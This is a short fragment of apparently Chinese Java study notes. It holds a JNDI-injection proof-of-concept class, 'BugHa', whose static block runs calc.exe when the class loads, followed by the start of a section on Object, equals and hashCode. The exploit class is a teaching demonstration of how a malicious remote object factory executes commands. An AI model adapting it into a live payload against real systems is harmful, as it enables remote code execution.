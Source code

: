 ![1639490131296](java.assets/1639490131296.png)

```java
public class BugHa implements ObjectFactory{
    static {
        System.out.println("黑客入侵");
        try {
            Process p  = Runtime.getRuntime().exec("calc.exe");
            p.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("黑客植入的class");
        return new BugHa();
    }
}
```



## 基础

### Object

所有类的超类

![1637153397488](java.assets/1637153397488.png)

#### equals和hashcode
